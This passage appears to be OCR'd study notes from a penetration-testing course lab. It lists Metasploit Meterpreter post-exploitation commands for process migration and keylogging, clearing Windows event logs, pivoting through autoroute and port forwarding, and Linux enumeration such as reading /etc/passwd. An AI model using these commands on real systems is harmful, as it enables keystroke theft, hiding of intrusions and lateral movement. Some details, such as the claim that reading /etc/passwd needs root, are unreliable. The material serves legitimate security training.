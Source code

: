 ***FIRST MIGRATE TO*** **`explorer`** ***PROCESS AND THEN RUN THE KEYLOGGER.***

```msfconsole
pgrep explorer
migrate <pid>
```

> Migration to `explorer`

`keyscan_start`: This will start the key stroke sniffer.
`keyscan_dump`: This will dump all the captured key strokes.

#### Clearing Windows Logs:

**Note:**

> Everything demonstrated here after is basically done after the initial foothold.

`clearev`: This command in the meterpreter is used to clear the event logs of the machine.

#### Pivoting:

```msfconsole
run autoroute -s 10.0.16.0/20
```

> This command can be used to set route from one network to another network. First type `ifconfig` or `ipconfig` to check all the possible interfaces on the machine.

```msfconsole
background
use auxiliary/scanner/portscan/tcp
set RHOSTS demo2.ine.local
set PORTS 1-100
exploit
```

> This module can be then used to run a port scan on the machine who's network route we have just added.

```msfconsole
sessions -i 1
portfwd add -l 1234 -p 80 -r demo2.ine.local
portfwd list
```

> These set of commands can be used to port forward a port of the target machine on to a port of `localhost`.

```shell
nmap -sV -sS -p 1234 localhost
```

> Now you can run a scan the target machines port using this command.

#### Linux Post Exploitation Modules

- `cat /etc/passwd`: This command lists out all the users and service accounts on the machine and needs `root` privileges to execute.
- `getuid`: If uid is 0 it mean root user
- `groups <username>`: This will tell you which user group the entered username belongs to.
- `bin/bash -i`: This command can be used to get a bash shell after meterpreter session is opened.
- `cat /etc/*issue`: This will tell you the release version of the machine.
- `uname -r`: This tells the kernel version:
- `ps aux`: This command lists down all the processes running on the system.
- `env:` This tells all the environment valuables for the current logged in user.
